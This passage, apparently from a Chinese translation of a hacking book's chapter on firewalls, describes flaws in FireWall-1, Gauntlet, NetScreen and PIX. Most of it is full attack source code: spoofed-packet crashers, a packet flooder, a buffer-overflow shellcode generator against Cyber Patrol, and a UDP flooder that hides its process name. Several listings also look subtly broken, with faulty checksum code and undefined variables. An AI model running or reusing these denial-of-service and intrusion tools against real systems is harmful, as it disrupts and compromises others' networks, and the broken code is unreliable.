#endif
}
```

printf ("Opening /dev/tap0\n");
tapfd = open ("/dev/tap0", O_RDWR);
if (tapfd == -1) {
    perror("tapfd");
    exit(0);
}
selectloop(netfd, tapfd);
return 0;
}

```c
void selectloop(int netfd, int tapfd) {
    fd_set rfds;
    int maxfd;
    int len;

    if (netfd > tapfd)
        maxfd = netfd;
    else
        maxfd = tapfd;

    while(1) {
        FD_ZERO(&rfds);
        FD_SET(netfd, &rfds);
        FD_SET(tapfd, &rfds);

        if(select(maxfd+1, &rfds, NULL, NULL, NULL) == -1) {
            perror("select");
            exit(0);
        }

        if (FD_ISSET(netfd, &rfds)) {
            FD_CLR(netfd, &rfds);
            if ((len = read(netfd, buffer, BUFSIZE)) < 1) {
                if (len == -1)
                    perror("read_netfd");
                printf("netfd died, quitting\n");
                close(tapfd);
                exit(0);
            }
            printf("%d bytes from network\n", len);
            write(tapfd, buffer, len);
            continue;
        }

        if (FD_ISSET(tapfd, &rfds)) {
            FD_CLR(tapfd, &rfds);
            if ((len = read(tapfd, buffer, BUFSIZE)) < 1) {
                if (len == -1)
                    perror("read_tapfd");
                printf("tapfd died, quitting\n");
                shutdown(netfd, 2);
                close(netfd);
                exit(0);
            }
            printf("%d bytes from interface\n", len);
            write(netfd, buffer, len);
            continue;
        }
    } /* end of looping */
}
```

## FireWall-1

Check Point Software Technologies Ltd. (www.checkpoint.com) 成立于 1993 年，是全球防火墙安全领域的领导者。Check Point 的安全开放平台（OPSEC）为与超过 250 家行业领先的合作伙伴提供的所谓“最佳单点解决方案”提供集成和互操作性框架。该公司网络安全产品线的核心 FireWall-1 是一套屡获殊荣的企业安全套件，集成了访问控制、认证、加密、网络地址转换、内容安全和审计功能。

## 局限性

### 完全拒绝服务攻击

- **概要：** 当防火墙检测到来自不同 MAC 地址但具有与其相同 IP 地址的数据包时，它会崩溃。
- **攻击状态：** 系统崩溃。
- **受影响版本：** 3x、4x
- **攻击方式：** 当防火墙检测到来自不同 MAC 地址但具有与其相同 IP 地址的数据包时，它会崩溃。根据黑客大师 lore 编写的 *Checkout.c* 程序，该程序只需向目标防火墙接口发送几个伪造的 UDP 数据包即可。

Checkout.c

```c
#define __BSD_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <netinet/ip.h>
#include <netinet/ip_udp.h>

#define TRUE  1
#define FALSE 0
#define ERR   -1

typedef u_long          ip_t;
typedef long           sock_t;
typedef struct ip      iph_t;
typedef struct udphdr  udph_t;
typedef u_short        port_t;

#define IP_SIZE   (sizeof(iph_t))
#define UDP_SIZE  (sizeof(udph_t))
#define PSIZE     (IP_SIZE + UDP_SIZE)
#define IP_OFF    (0)
#define UDP_OFF   (IP_OFF + IP_SIZE)

void      usage               __P ((u_char *));
u_short   checksum            __P ((u_short *, int));

int main (int argc, char * * argv)
{
        iph_t victim;
        sock_t fd;
        iph_t * ip_ptr;
        udph_t * udp_ptr;
        u_char packet[PSIZE];
        u_char * yes = "1";
        struct sockaddr_in sa;
        port_t aport;
        u_long packets;

        if (argc < 3)
        {
                usage (argv[0]);
        }

        fprintf(stderr, "\n*** CheckPoint IP Firewall DoS\n");
        fprintf(stderr, "*** Bug discovered by: antipent <rtodd@antipentium.com>\n");
        fprintf(stderr, "*** Code by: lore <fiddler@antisocial.com>\n\n");

        if ((victim = inet_addr(argv[1])) == ERR)
        {
                fprintf(stderr, "Bad IP address '%s'\n", argv[1]);
                exit(EXIT_FAILURE);
        }
        else if (!(packets = atoi(argv[2])))
        {
                fprintf(stderr, "You should send at least 1 packet\n");
                exit(EXIT_FAILURE);
        }
        else if ((fd = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) == ERR)
        {
                fprintf(stderr, "Couldn't create raw socket: %s\n",
                strerror(errno));
                exit(EXIT_FAILURE);
        }
        else if ((setsockopt(fd, IPPROTO_IP, IP_HDRINCL, &yes, 1)) == ERR)
        {
                fprintf (stderr, "Couldn't set socket options: %s\n", strerror(errno));
                exit (EXIT_FAILURE);
        }

        srand ((unsigned)time (NULL));

        if (argc > 3)
        {
                aport = htons (atoi (argv[3]));
        }
        else
        {
                aport = htons (rand() % 65535 + 1);
        }

        fprintf (stderr, "Sending packets: ");

        while (packets--)
        {
                memset (packet, 0, PSIZE);

                ip_ptr = (iph_t *) (packet + IP_OFF);
                udp_ptr = (udph_t *) (packet + UDP_OFF);

                ip_ptr->ip_hl = 5;
                ip_ptr->ip_v = 4;
                ip_ptr->ip_tos = 0;
                ip_ptr->ip_len = PSIZE;
                ip_ptr->ip_id = 1234;
                ip_ptr->ip_off = 0;
                ip_ptr->ip_ttl = 255;
                ip_ptr->ip_p = IPPROTO_UDP;
                ip_ptr->ip_sum = 0;
                ip_ptr->ip_src.s_addr = victim;
                ip_ptr->ip_dst.s_addr = victim;

                udp_ptr->source = htons (rand() % 65535 + 1);
                udp_ptr->dest = aport;
                udp_ptr->len = htons (UDP_SIZE);
                udp_ptr->check = checksum ((u_short *)ip_ptr, PSIZE);

                sa.sin_port = htons (aport);
                sa.sin_family = AF_INET;
                sa.sin_addr.s_addr = victim;

                if ((sendto (fd,
                packet,
                PSIZE,
                0,
                (struct sockaddr *)&sa,
                sizeof (struct sockaddr_in))) == ERR)
                {
                        fprintf(stderr, "Couldn't send packet: %s\n",
                               strerror(errno));
                        close(fd);
                        exit(EXIT_FAILURE);
                }
                fprintf(stderr, ".");
        }

        fprintf(stderr, "\n");
        close(fd);

        return (EXIT_SUCCESS);
}

void usage (u_char * pname)
{
        fprintf(stderr, "Usage: %s <victim_ip> <packets> [port]\n", pname);
        exit(EXIT_SUCCESS);
}

u_short checksum (u_short *addr, int len)
{
        register int nleft = len;
        register int sum = 0;
        u_short answer = 0;

        while (nleft > 1) {
                sum += *addr++;
                nleft -= 2;
        }

        if (nleft == 1) {
                *(u_char *)(&answer) = *(u_char *)addr;
                sum += answer;
        }

        sum = (sum >> 16) + (sum + 0xffff);
        sum += (sum >> 16);
        answer = ~sum;
        return(answer);
}

/* EOF */
```

### 严重拥塞

- **概要：** 此漏洞允许远程攻击者使防火墙陷入 100% CPU 利用率的锁死状态。
- **攻击状态：** 严重拥塞；系统崩溃。
- **受影响版本：** 所有版本。
- **攻击方式：** FW-1 不会检查或记录分片数据包，直到数据包完全重组为止。因此，远程攻击者可以通过向目标接口发送成千上万个无关的分片数据包，使系统无法运行。

## Gauntlet

毫无疑问，防火墙是最难以正确配置的安全防御机制。尽管大多数漏洞评估通常会发现防火墙配置中的缺陷，但 PGP Security（Network Associates 公司，www.pgp.com/asp_set/products/tns/gauntlet.asp）推出的 Gauntlet Firewall 的缺陷比大多数防火墙都要少。通过几乎完整的协议栈进行检查，Gauntlet 的代理模块利用 Network Associates 待授权的自适应代理技术，以数据包过滤的速度抵御未经授权的访问者。除了其他赞誉之外，Gauntlet 的配置管理软件模块 Firewall Manager 也获得了极佳的评价（见图 11.1）。


**图 11.1** Gauntlet 防火墙管理器界面。

### 局限性

### 拒绝服务攻击

- **概要：** 此漏洞允许远程攻击者锁死防火墙。
- **攻击状态：** 系统崩溃。


## 漏洞：版本 5.5。

**入侵：** 如果攻击者知道一个将通过 Gauntlet 防火墙路由的 IP 地址，他或她可以远程锁定该防火墙，使得一个数据包就能使 Spares 失效，而三到五个数据包则能使 BSDI 上的 Ctrl-Alt-Del 失效。

## Gauntlet.c

```c
#include <libnet.h>
int main(int argc, char **argv)
{
    u_long src_ip = 0, dst_ip = 0, ins_src_ip = 0, ins_dst_ip = 0;
    u_long *problem = NULL;
    u_char *packet = NULL;
    int sock, c, len = 0;
    long acx, count = 1;
    struct icmp *icmp;
    struct ip *ip;

    /* It appears that most IP options of length >0 will work */
    /* Works with 128, 64, 32, 16... And the normal ones 137... */
    /* Does not work with 0, 1 */

    u_char data[] = { 137 };
    int data_len = sizeof(data);

    printf("Written by Mike Frantzien... <godot@msg.net>\n");
    printf("For test purposes only... yada yada yada... \n");
    src_ip = inet_addr("10.10.10.10");
    while ( (c = getopt(argc, argv, "ds:DS:l:c:")) != EOF ) {
        switch(c) {
            case 'd':
                dst_ip = libnet_name_resolve(optarg, 1, ...);
                break;
            case 's':
                src_ip = libnet_name_resolve(optarg, 1, ...);
                break;
            case 'D':
                ins_dst_ip = name_resolve(optarg, 1, ...);
                break;
            case 'S':
                ins_src_ip = name_resolve(optarg, 1, ...);
                break;
            case 'l':
                data_len = atoi(optarg);
                break;
            case 'c':
                if ( (count = atol(optarg)) < 1 )
                    count = 1;
                break;
            default:
                printf("Don't understand option.\n");
                exit(-1);
        }
    }

    if ( dst_ip == 0 ) {
        printf("Usage: %s\t -d <destination IP>\t-s <source IP>...\n", 
               rindex(argv[0], '/') == NULL ? argv[0] : rindex(argv[0], '/') + 1
               );
        printf("\t\t[-S <inner source IP>]\t[-D <inner dest IP>]\n");
        printf("\t\t[-l <data length>]\t[-c <# to send>]\n");
        exit(-1);
    }
    if ( ins_dst_ip == 0 )
        ins_dst_ip = src_ip;
    if ( ins_src_ip == 0 )
        ins_src_ip = dst_ip;
    if ( (packet = malloc(1500)) == NULL ) {
        perror("malloc: ");
        exit(-1);
    }
    if ( (sock = libnet_open_raw_sock(IPPROTO_RAW)) == -1 ) {
        perror("socket: ");
        exit(-1);
    }
    /* 8 is the length of the ICMP header with the problem field */
    len = 8 + IP_H + data_len;
    bzero(packet + IP_H, len);

    libnet_build_ip(len,                 /* Size of the payload */
                    0xc2,                /* IP tos */
                    30241,               /* IP ID */
                    0,                   /* Frag Offset & Flags */
                    64,                  /* TTL */
                    IPPROTO_ICMP,        /* Transport protocol */
                    src_ip,              /* Source IP */
                    dst_ip,              /* Destination IP */
                    NULL,                /* Pointer to payload */
                    0,
                    packet);            /* Packet memory */
    icmp = (struct icmp *) (packet + IP_H);
    problem = (u_long *) (packet + IP_H + 4); /* 4 = ICMP header */

    icmp->icmp_type = ICMP_PARAMPROB;
    icmp->icmp_code = 0;                    /* Indicates a problem pointer */
    *problem = htonl(0x14000000); /* Problem is 20 bytes into */

    /* Need to embed an IP packet within the ICMP */
    ip = (struct ip *) (packet + IP_H + 8); /* 8 = icmp header */

    ip->ip_v = 0x4;                     /* IPV4 */
    ip->ip_hl = 0xf;                    /* Some IP Options */
    ip->ip_tos = 0xa3;                  /* Whatever */
    ip->ip_len = htons(data_len);       /* Length of packet */
    ip->ip_id = 30241;                  /* Whatever */
    ip->ip_off = 0;                     /* No frag's */
    ip->ip_ttl = 32;                    /* Whatever */
    ip->ip_p = 98;                      /* Random protocol */
    ip->ip_sum = 0;                     /* Will calc later */
    ip->ip_src.s_addr = ins_src_ip;
    ip->ip_dst.s_addr = ins_dst_ip;
    /* Move our data block into the packet */
    bcopy (data, (void *) (packet + IP_H + IP_H + 8), data_len);
    /* I hate checksuming. Spent a day trying to get it to work in perl... */
    /* That sucked... Tequila would have helped immensely. */
    libnet_do_checksum ((unsigned char *) ip, IPPROTO_IP, data_len);
    /* Bah... See above comment. */
    libnet_do_checksum (packet, IPPROTO_ICMP, len);
    printf ("Sending %li packets", count);
    for (acx = 0; acx < count; acx++) {
        if (libnet_write_ip(sock, packet, len + IP_H) < (len + IP_H))
            perror("write_ip: ");
        else printf(".");
    }
    printf("\n\n");
    return (0);
}
```

## 通过缓冲区溢出进行主观代码执行

**概要：** 此 Gauntlet 入侵漏洞允许远程攻击者导致防火墙执行任意代码。

**入侵状态：** 未授权的代码执行。

**漏洞版本：** 根据配置不同，版本 4.1、4.2、5.0 和 5.5 均受影响。

**入侵方式：** Mattel 的 Cyber Patrol 软件集成在 Network Associates 的 Gauntlet 防火墙（版本 4.1、4.2、5.0 和 5.5）中，该版本存在缓冲区溢出。由于 Cyber Patrol 的集成方式，引入了一种漏洞，可能允许远程攻击者获得防火墙的 root 访问权限，或在防火墙上执行任意命令。默认情况下，Cyber Patrol 安装在 Gauntlet 安装中，并运行 30 天。在此期限后，它会被禁用。在这 30 天内，防火墙容易受到攻击。由于过滤软件可从外部访问，内部网络之外的用户也可能利用该漏洞。该代码旨在运行一个名为 /bin/zz 的测试文件，因此你需要在防火墙上创建 /bin 下的一个文件并将其权限设置为 700。在 zz 文件中，你应该让它做一些操作以留下日志。以下是一个简单的示例：

```c
#include <stdio.h>

char data[364];
main() {
int i;
char shelloutput[80];
unsigned char shell[] =
"\x90"
"\xeb\x1f\x5e\x31\xc0\x89\x46\xf5\x88\x46\xfa\x89\x46\x0c\x89\x76"
"\x08\x50\x8d\x5e\x08\x53\x56\x56\xb0\x3b\x9a\xff\xff\xff\xff\x07"
"\xff\xe8\xdc\xff\xff/bin/zz\x00";
for(i=0;i<264;i++)
data[i]=0x90;
data[i]=0x30;i++;
data[i]=0x9b;i++;
data[i]=0xb4;i++;
data[i]=0xef;i++;
data[i] = 0x00;
for (i=0; i<strlen(shell); i++)
shelloutput[i] = shell[i];
shelloutput[i] = 0x00;
printf ("10003,http://%s%s", data, shelloutput);
}
```

# NetScreen

NetScreen（www.netscreen.com）由 NetScreen Technologies 提供，获得了本作者的奖项，旨在表彰其在单一下一代安全解决方案中最佳的功能和管理能力。NetScreen 产品将防火墙、VPN 和流量管理功能整合在一个专用的硬件平台上，速度可达千兆级。该公司处于开发产品的最前沿，这些产品以打破纪录的性能提供集成安全，同时仍实施最高级别的符合 IP 安全（IPsec）标准的安全措施。其 Web 管理界面和命令行界面已被证明优于大多数竞争对手（见图 11.2）。

简单、用户友好的管理和配置流程使得开箱即用即可在 10 分钟内完成标准高性能企业级防火墙的设置。

# 弊端

## 拒绝服务泛洪

**概要：** 此入侵漏洞允许远程攻击者通过泛洪发送 UDP 数据包来潜在地锁定防火墙。

**入侵状态：** 严重拥塞。

**漏洞版本：** NetScreen 5/10/100，具体取决于配置。


图 11.2 NetScreen 配置界面。

## **突破：** 可自定义的 *udpfld.c*

```c
udpfld.c

#define DEBUG
#endif
static unsigned int wait_time = 0;
static unsigned int packet_size = 80;
static unsigned int packet_count = 1000;
static int gateway = 0x0100007f;
static int destination = 0;
static unsigned int uflag = 0;
static unsigned int tflag = 0;
static int socket_fd;
static struct sockaddr dest;

unsigned long
in_aton(char *str)
{
    unsigned long l;
    unsigned int val;
    int i;
    l = 0;
    for (i = 0; i < 4; i++) {
        l <<= 8;
        if (*str != '\0') {
            val = 0;
            while (*str != '\0' && *str != '.') {
                val *= 10;
                val += *str - '0';
                str++;
            }
            l |= val;
            if (*str != '\0') str++;
        }
    }
    return (htonl (l));
}

void print_usage ()
{
    fprintf (stderr,
        "Usage: gagezoons [-w time_To_Jerkoff] [-s jizz_size] [-c jizz_count] host\n");
    exit (1);
}

void get_options (int argc, char *argv[])
{
    extern int optind;
    extern char *optarg;
    int     c;

    while (( c = getopt (argc, argv, "r:c:w:s:g:") ) > 0) {
        switch (c) {
        case 'w' :
            wait_time = atoi (optarg);
            break;
        case 's' :
            packet_size = atoi (optarg);
            break;
        case 'c' :
            packet_count = atoi (optarg);
            break;
        case 'g' :
            gateway = in_aton (optarg);
            break;
        case 'r' :
            srand (atoi (optarg));
            break;
        case 't' :
            tflag ++;
            break;
        case 'u' :
            uflag ++;
            break;
        default  :
            print_usage ();
        }
    }

    if ( optind >= argc )
        print_usage ();
    destination = in_aton (argv[optind]);
#ifdef DEBUG
      fprintf (stderr, "Wait time = %d\n", wait_time);
      fprintf (stderr, "Maximum packet size = %d\n", packet_size);
      fprintf (stderr, "Packets count = %d\n", packet_count);
      fprintf (stderr, "Destination = %08x\n", destination);
      fprintf (stderr, "Gateway = %08x\n", gateway);
      if (tflag)
          fprintf (stderr, "TCP option enabled\n");
      if (uflag)
          fprintf (stderr, "UDP option enabled\n");
#endif
}

void init_raw_socket()
{
    unsigned int sndlen, ssndlen, optlen = sizeof (ssndlen);
    int fl;
    if ( (socket_fd = socket (AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0 ) {
        perror ("ipbomb : socket ");
        exit (1);
    }
#ifdef __linux__
    sndlen = packet_size + 128 + 1 + sizeof (struct sk_buff);
#else
    sndlen = packet_size;
#endif
    if ( setsockopt (socket_fd, SOL_SOCKET, SO_SNDBUF, (char *) &ssndlen,
            sizeof (ssndlen) ) ) {
        perror ("ipbomb : setsockopt (..., ..., SO_SNDBUF,... )");
        exit (1);
    }
    if ( getsockopt (socket_fd, SOL_SOCKET, SO_SNDBUF, (char *) &ssndlen,
            &optlen) ) {
        perror ("ipbomb : getsockopt (..., ..., SO_SNDBUF,... )");
        exit (1);
    }
    if ( ssndlen != sndlen ) {
        fprintf (stderr, "ipbomb: maximum packet size too big.\n");
        exit (1);
    }
    fl = fcntl ( socket_fd, F_GETFL, 0);
    fl |= O_NONBLOCK;
    fcntl ( socket_fd, F_SETFL, fl);
}

void close_raw_socket()
{
    close (socket_fd);
}

void send_packet( char *bomb, int len )
{
    int i;

    i = sendto (socket_fd, bomb, len, 0, &dest, sizeof (dest));
    /*
    if ( i != packet_size ) {
         perror ("ipbomb : sendto ");
         exit (1);
    }
    */
}

void generate_packet( char *bomb )
{
    struct ip * iph = (struct ip *) bomb;
    unsigned int i;
    unsigned int len = packet_size * (rand() & 0xffff) >> 16;

    assert ( len < packet_size );
    /* Options needed to be correct */
    iph->ip_v = IPVERSION;
    iph->ip_hl = 5;
    iph->ip_sum = 0;
    iph->ip_len = htons(len);

    /* Random options */
    #define SET_RAND(_a)    iph->_a = rand() & ((1 << (sizeof (iph->_a) * 8)) - 1)
    SET_RAND(ip_tos);
    SET_RAND(ip_id);
    SET_RAND(ip_ttl);
    SET_RAND(ip_off);
    SET_RAND(ip_p);
    #undef SET_RAND
    iph->ip_src.s_addr = rand();
    iph->ip_dst.s_addr = destination ? destination : rand();
    for ( i = sizeof (struct ip); i < len; i++)
        bomb[i] = rand() & 255;

    send_packet(bomb, len);
}

void main (int argc, char *argv[])
{
    int i;
    char * bomb;
    struct sockaddr_in * inet_dest = (struct sockaddr_in *) &dest ;

    rand (time (NULL));
    get_options (argc, argv);

    bzero (&dest, sizeof (dest));
    inet_dest->sin_family = AF_INET;
    inet_dest->sin_addr.s_addr = gateway;

    if ( (bomb = malloc (packet_size)) == NULL) {
        perror ("ipbomber: malloc");
        exit(1);
    }
    init_raw_socket();
    for ( i = 0; i < packet_count; i++ ) {
        generate_packet (bomb);
    }
    close_raw_socket();
}
```

526

## PIX

由思科系统公司（Cisco Systems, Inc.，www.cisco.com）提供的 PIX，在另一个易于安装的一体化硬件平台上提供了强大的安全性。提供完整的防火墙安全保护，PIX 防火墙使用非 UNIX、安全、实时的嵌入式系统。PIX 提供高达 256,000 个同时连接、每秒超过 6,500 个新连接以及接近 170 Mbps 吞吐量的出色性能。通过命令行界面或图形化管理器，PIX 允许从单一位置轻松配置和管理单个或多个 PIX 防火墙，每个防火墙保护多个网络（包括令牌环网）。PIX 可以支持六个接口，包括网络地址转换（NAT）。

## 局限性

当前关于 PIX 漏洞的最新秘密信息涉及 PIX 防火墙维护连接状态路由表的方式。基本上，远程攻击者可以对 PIX 的非军事区（DMZ）发起拒绝服务（DoS）攻击，从而使黑客能够重置整个路由表，有效地阻塞任何内部接口与外部接口之间的所有通信，反之亦然（参见 pixfld.c）。

## pixfld.c

```c
/*----------------------- [Defines] */
#define Port_Max 65534
#define Packet_Max 1023
#define Frequency_Max 300
#define Default_Fork 0
#define Default_Stealth "(nfiiod)"
/* Color Palette --------------- */
#define B "\033[1;30m"

#define R "\033[1;31m"
#define G "\033[1;32m"
#define Y "\033[1;33m"
#define U "\033[1;34m"
#define M "\033[1;35m"
#define C "\033[1;36m"
#define W "\033[1;37m"
#define DR "\033[0;31m"
#define DG "\033[0;32m"
#define DY "\033[0;33m"
#define DU "\033[0;34m"
#define DM "\033[0;35m"
#define DC "\033[0;36m"
#define DW "\033[0;37m"
#define RESTORE "\033[0;0m"
#define CLEAR "\033[0;0H\033[J"

/* ------------------- [Includes] */
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <netdb.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/in_systm.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include <netinet/protocols.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <signal.h>
#include <netinet/ip_udp.h>
#include <string.h>
#include <pwd.h>
#include <time.h>

/* [Option Parsing] */

struct sockaddr_in dstaddr;

unsigned long dst;

struct udphdr *udp;
struct iphdr *ip;

char *target;
char *srchost;
char *stealth;
int dstport = 0;

int srchost = 0;
int numpacks = 0;
int psize = 0;
int wait = 0;
int forknum = 0;

/* [Usage] */

void usage(char *pname)
{
    printf("\n%sUsage%s %s: %s[%sarguments%s] %s<%sTarget Ip%s>\n\n", DG, R, pname, DM, U, DM, DM, U, DM, RESTORE);
    printf("%sOption Description Default Value\n\n",W,RESTORE);
    printf("%s-%ss %s<%sSource IP %s> %s: %sPacket Origin %s[%s Random %s ] \n", DR,DU,W,DC,W,DW,B,W,DC,W,RESTORE);
    printf("%s-%sn %s<%sPacket Num %s> %s: %sLimit of Sent Datagrams %s[%s Unlimited %s ] \n", DR,DU,W,DC,W,DW,B,W,DC,W,RESTORE);
    printf("%s-%sp %s<%sPacket Size%s> %s: %sDatagram Size %s[%s 1 - %d bytes%s ]\n", DR,DU,W,DC,W,DW,B,W,DC,Packet_Max,W,RESTORE);
    printf("%s-%sd %s<%sTarget Port%s> %s: %sDestination Port %s[%s Random %s ] \n", DR,DU,W,DC,W,DW,B,W,DC,W,RESTORE);
    printf("%s-%so %s<%sSource Port%s> %s: %sSource Port %s[%s Random %s ] \n", DR,DU,W,DC,W,DW,B,W,DC,W,RESTORE);
    printf("%s-%sw %s<%sFrequency %s> %s: %sDelay Between Each Packet %s[%s 0 - %d ms%s ]\n", DR,DU,W,DC,W,DW,B,W,DC,Frequency_Max,W,RESTORE);
    printf("%s-%sf %s<%sFork Number%s> %s: %sNo. of Times Backgrounded %s[%s 0 Times %s ]%s\n", DR,DU,W,DC,W,DW,B,W,DC,W,RESTORE);
    printf("%s-%sx %s<%sStealth %s> %s: %sMask Process As %s[%s %s %s]\n", DR,DU,W,DC,W,DW,B,W,DC,Default_Stealth,W,RESTORE);
    printf("\n\n");
    exit(EXIT_SUCCESS);
}

/* [In cksum with some mods] */
unsigned short in_cksum(addr, len)
u_short *addr;
int len;
{
    register int nleft = len;
    register u_short *w = addr;
    register int sum = 0;
    u_short answer = 0;

    while (nleft > 1) {
        sum += *w++;
        sum += *w++;
        nleft -= 2;
    }

    if (nleft == 1) {
        *(u_char *) (&answer) = *(u_char *) w;
        sum += answer;
    }
    sum = (sum >> 17) + (sum & 0xffff);
    sum += (sum >> 17);
    answer = -sum;
```


## 解析函数

```c
unsigned long resolve(char *cp)
{
    struct hostent *hp;

    hp = gethostbyname(cp);
    if (!hp) {
        printf("[*] Unable to resolve %s\t\n", cp);
        exit(EXIT_FAILURE);
    }
    return ((unsigned long) hp->h_addr);
}

void resolvedest (void)
{
    struct hostent *host;

    memset(&dstaddr, 0, sizeof(struct sockaddr_in));
    dstaddr.sin_family = AF_INET;
    dstaddr.sin_addr.s_addr = inet_addr(target);
    if (dstaddr.sin_addr.s_addr == -1) {
        host = gethostbyname(target);
        if (host == NULL) {
            printf("[*] Unable To resolve %s\t\n", target);
            exit(EXIT_FAILURE);
        }
        dstaddr.sin_family = host->h_addrtype;
        memcpy((caddr_t) & dstaddr.sin_addr, host->h_addr, host->h_length);
    }
    memcpy(&dst, (char *) &dstaddr.sin_addr.s_addr, 4);
}
```

## 解析参数

```c
void parse_args(int argc, char *argv[])
{
    int opt;

    while ((opt = getopt(argc, argv, "x:s:d:n:p:w:o:f:")) != -1)
        switch (opt) {
            case 's':
                srchost = (char *) malloc(strlen(optarg) + 1);
                strcpy(srchost, optarg);
                break;
            case 'x':
                stealth = (char *) malloc(strlen(optarg));
                strcpy (stealth, optarg);
                break;
            case 'd':
                dsport = atoi(optarg);
                break;
            case 'n':
                numpacks = atoi(optarg);
                break;
            case 'p':
                psize = atoi(optarg);
                break;
            case 'w':
                wait = atoi(optarg);
                break;
            case 'o':
                srcport = atoi(optarg);
                break;
            case 'f':
                forknum = atoi(optarg);
                break;
            default:
                usage (argv[0]);
        }
    if (!stealth)
        stealth = Default_Stealth;
    if (!forknum)
        forknum = Default_Fork;
    if (!argv[optind]) {
        printf ("\n\n%s[%s*%s]%%s Bzzzt .. We need a Place for the Packets to Go%s\n",DC,W,DC,DR,RESTORE);
        exit (EXIT_FAILURE);
    }
    target = (char *) malloc (strlen (argv[optind]));
    if (!target) {
        printf ("\n\n%s[%s*%s]%%s Unable to Allocate Required Amount of Memory for Task%s\n",DC,W,DC,DR,RESTORE);
        perror ("malloc");
        exit (EXIT_FAILURE);
    }

    strcpy (target, argv[optind]);
}

int cloaking (int argc, char *argv[])
{
    int x;

    for (x = argc-1; x >= 0; x--)
        memset (argv[x], 0, strlen (argv[x]));
    strcpy (argv[0],stealth);
    return(0);
}
```

## 发送数据包

```c
void main(int argc, char *argv[])  
{
int q, xx, sen, i, unlim = 0, sec_check;
char *packet;

banner();

if (argc < 2)
    usage(argv[0]);

parse_args(argc, argv);

cloaking(argc, argv);

resolveDest();

printf("\n\n%s  [%s*%s]%s  Target Host%s      :%s %s\n",DC,W,DC,DR,DC,DW,target,RESTORE);
if (!srchost)
    printf("%s  [%s*%s]%s  Source Host%s     :%s Random%s\n",DC,W,DC,DR,DC,DW,RESTORE);
else
    printf("%s  [%s*%s]%s  Source Host%s      :%s %s %s\n",DC,W,DC,DR,DC,DW,srchost,RESTORE);

if (!numpacks)
    printf("%s  [%s*%s]%s  Number%s           :%s Infinite%s\n",DC,W,DC,DR,DC,DW,RESTORE);
else
    printf("%s  [%s*%s]%s  Number%s           :%s %d%s\n",DC,W,DC,DR,DC,DW,numpacks,RESTORE);
if (!psize)
    printf("%s  [%s*%s]%s  Packet Size%s       :%s 1 - %d bytes%s\n",DC,W,DC,DR,DC,DW,Packet_Max,RESTORE);
else
    printf("%s  [%s*%s]%s  Packet Size%s       :%s %d%s\n",DC,W,DC,DR,DC,DW,psize,RESTORE);
if (!wait)
    printf("%s  [%s*%s]%s  Wait Time%s         :%s 0 - %dms%s\n",DC,W,DC,DR,DC,DW,Frequency_Max,RESTORE);
else
    printf("%s  [%s*%s]%s  Wait Time%s         :%s %dms%s\n",DC,W,DC,DR,DC,DW,wait,RESTORE);
if (!dsport)
    printf("%s  [%s*%s]%s  Destination Port%s   :%s Random%s\n",DC,W,DC,DR,DC,DW,RESTORE);
else
    printf("%s  [%s*%s]%s  Destination Port%s   :%s %d%s\n",DC,W,DC,DR,DC,DW,dsport,RESTORE);
if (!srcport)
    printf("%s    [%s*%s]%s    Source Port%s                    :%s Random%s\n",DC,W,DC,DR,DC,DW,RESTORE);
else
    printf("%s    [%s*%s]%s    Source Port%s                    :%s %d%s\n",DC,W,DC,DR,DC,DC,srcport,RESTORE);
printf("%s    [%s*%s]%s    Backgrounded%s :%s %d%s\n",DC,W,DC,DR,DC,DW,forknum,RESTORE);
if (!stealth)
    printf("%s    [%s*%s]%s    Masked As%s                     :%s %s%s\n",DC,W,DC,DR,DC,DW,Default_Stealth,RESTORE);
else
    printf("%s    [%s*%s]%s    Masked As%s                     :%s %s%s\n",DC,W,DC,DR,DC,DW,stealth,RESTORE);

if (forknum) {
    switch(fork()) {
        case -1:
            printf("%s    [%s*%s]%s Your OS cant Make the fork() call as we need it",DC,W,DC,DR,RESTORE);
            printf("%s    [%s*%s]%s This is usually an indication of something bad%s",DC,W,DC,DR,RESTORE);
            exit(1);
        case 0:
            break;
        default:
            forknum--;
            for (xx=0;xx<forknum;xx++) {
                switch(fork()){
                    case -1:
                        printf("%s    [%s*%s]%s Unable to fork%s\n",DC,W,DC,DR,RESTORE);
                        printf("%s    [%s*%s]%s This is usually an indication of something bad%s",DC,W,DC,DR,RESTORE);
                        exit(1);
                    case 0:
                        xx=forknum;
                        break;
                    default:
                        if (xx==forknum-1) {
                            printf("%s    [%s*%s]%s Process Backgrounded%s\n",DC,W,DC,DR,RESTORE);
                            exit(0);
                        }
                        break;
                }
            }
    }
}

packet = (char *) malloc(sizeof(struct iphdr) + sizeof(struct udphdr) + psize);
ip = (struct iphdr *) packet;
udp = (struct udphdr *) (packet + sizeof(struct iphdr));
memset(packet, 0, sizeof(struct iphdr) + sizeof(struct udphdr) + psize);

if (!numpacks) {
    unlim++;
    numpacks++;
}
if (srchost && *srchost)
    ip->saddr = resolve(srchost);
ip->daddr = dst;
ip->version = 4;
ip->ihl = 5;
ip->ttl = 255;
ip->protocol = IPPROTO_UDP;
ip->tot_len = htons(sizeof(struct iphdr) + sizeof(struct udphdr) + psize);
ip->check = in_cksum(ip, sizeof(struct iphdr));

udp->source = htons(srcport);
udp->dest = htons(dsport);
udp->len = htons(sizeof(struct udphdr) + psize);

/*
* Because we like to be Original Seeding rand() with something
* as unique as time seemed groovy. Lets have a loud Boo for Patter Loggers.
*/

srand(time(0));

for (i = 0; i < numpacks; (!unlim) ? i++ : i++) {
    if (!srchost)
        ip->saddr = rand();
    if (!dsport)
        udp->dest = htons(rand()%Port_Max+1);
    if (!srcport)
        udp->source = htons(rand()%Port_Max+1);
    if (!psize)
        udp->len = htons(sizeof(struct udphdr) + rand()%Packet_Max);

    if (sendto(sen, packet, sizeof(struct iphdr) + sizeof(struct udphdr) + psize,
        0, (struct sockaddr *) &dstaddr,
        sizeof(struct sockaddr_in)) == (-1)) {
        printf("%s[%s*%s]%s Error sending Packet%s",DC,W,DC,DR,RESTORE);
        perror("SendPacket");
        exit(EXIT_FAILURE);
    }
    if (!wait)
        usleep(rand() %Frequency_Max);
    else
        usleep(wait);
}
```

## Raptor 防火墙

